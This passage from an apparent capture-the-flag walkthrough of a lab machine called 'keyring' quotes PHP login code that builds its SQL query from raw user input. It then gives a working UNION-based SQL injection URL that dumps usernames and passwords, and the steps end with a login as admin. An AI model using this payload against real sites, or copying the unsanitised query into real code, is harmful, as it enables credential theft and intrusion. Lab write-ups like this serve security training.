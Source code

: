 Reviewing the sorce code in the **login.php** file, it was possible to identify the **details** table and its columns, it is important since it contains the user credentials.

```console
root@kali:/keyring# cat keyring/html/login.php
...
$sql = "select name from details where name='$us' and password='$pa'";
...
```

The query to retrieve the user credentials is:

`http://172.16.71.128/history.php?user=-guest%27%20union%20select%20concat_ws(%27:%27,%20name,%20password)%20from%20details--%20-`

![](/assets/images/keyring/screenshot-12.png)

Log in as user **admin**.

![](/assets/images/keyring/screenshot-13.png)

![](/assets/images/keyring/screenshot-14.png)
